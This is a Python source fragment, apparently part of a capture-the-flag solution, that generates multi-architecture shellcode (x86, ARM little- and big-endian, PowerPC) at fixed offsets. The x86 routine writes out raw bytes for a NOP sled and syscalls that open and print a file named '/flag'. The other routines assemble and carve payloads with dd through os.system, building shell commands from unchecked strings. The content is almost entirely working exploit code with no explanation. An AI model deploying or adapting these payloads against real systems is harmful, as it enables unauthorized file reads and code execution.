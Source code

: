     # dd for files!
    def os_dd(dst, src, skip=0, seek=0, count=0):
        print "dd'ing", dst, "to", src, "skip", skip, "seek", seek
        cmd = 'dd if=%s of=%s skip=%d seek=%d bs=1'%(src,dst, skip,seek)
        if count: cmd += ' count='+str(count)
        os.system(cmd)

    # dd for lists!
    def dd(dst, src, skip=0, seek=0, count=None):
        if not count: count = min(len(dst)-seek, len(src)-skip)
        for i in range(count): dst[seek+i] = src[skip+i]
        return dst

    X86_SIZE = 0x4c
    def get_x86_shellcode():
        shellcode = ''

        # world's shortest nopsled
        shellcode += "\x90"*4

        shellcode += "\x31\xc0\x31\xdb\x31\xc9\x31\xd2"+\
                     "\xeb\x32\x5b\xb0\x05\x31\xc9\xcd"+\
                     "\x80\x89\xc6\xeb\x06\xb0\x01\x31"+\
                     "\xdb\xcd\x80\x89\xf3\xb0\x03\x83"+\
                     "\xec\x01\x8d\x0c\x24\xb2\x01\xcd"+\
                     "\x80\x31\xdb\x39\xc3\x74\xe6\xb0"+\
                     "\x04\xb3\x01\xb2\x01\xcd\x80\x83"+\
                     "\xc4\x01\xeb\xdf\xe8\xc9\xff\xff"+\
                     "\xff"+\
                     "/flag\x00\x00"
        open('shellcode-x86.bin','w').write(''.join(shellcode))
        return shellcode


    ARMEL_START_OFFSET = 0x60
    def get_armel_shellcode():
        os.system('arm-linux-gnueabi-as shellcode-arm.s -o shellcode-armel')
        os_dd('shellcode-armel.bin','shellcode-armel', skip=52, count=0x50)
        return open('shellcode-armel.bin').read()

    ARMEB_START_OFFSET = 0x110
    def get_armeb_shellcode():
        os.system('arm-linux-gnueabi-as -mbig-endian shellcode-arm.s -o shellcode-armeb')
        os_dd('shellcode-armeb.bin','shellcode-armeb', skip=52, count=0x50)
        return open('shellcode-armeb.bin').read()

    PPC_START_OFFSET = 0x174
    def get_ppc_shellcode():
        # no compilation here yet
        os_dd('shellcode-ppc.bin','shellcode-ppc', skip=52, count=0x6e)
        return open('shellcode-ppc.bin').read()
